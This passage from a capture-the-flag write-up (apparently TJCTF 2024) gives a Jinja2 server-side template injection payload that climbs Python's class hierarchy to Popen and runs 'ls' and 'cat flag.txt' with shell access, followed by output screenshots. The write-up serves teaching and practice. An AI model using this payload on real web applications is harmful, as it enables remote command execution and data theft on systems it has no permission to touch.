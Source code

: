 We can use the following payload to list the directory and to retrieve the flag:

```python
{% raw %}# We use the subclasses 336 (Popen) as it was the index in the previous classes list
{{ ''.__class__.__mro__[1].__subclasses__()[336]('ls',shell=True,stdout=-1).communicate()[0].decode('utf-8') }}

# We can cat the flag:
{{''.__class__.__mro__[1].__subclasses__()[336]('cat flag.txt',shell=True,stdout=-1).communicate()[0].decode('utf-8') }}{% endraw %}
```

- ls:

<p align="center">
  <img src="/images/writeups/TJCTF2024/7_1_flag.png" width="55%"/>
</p>

- cat flag.txt

<p align="center">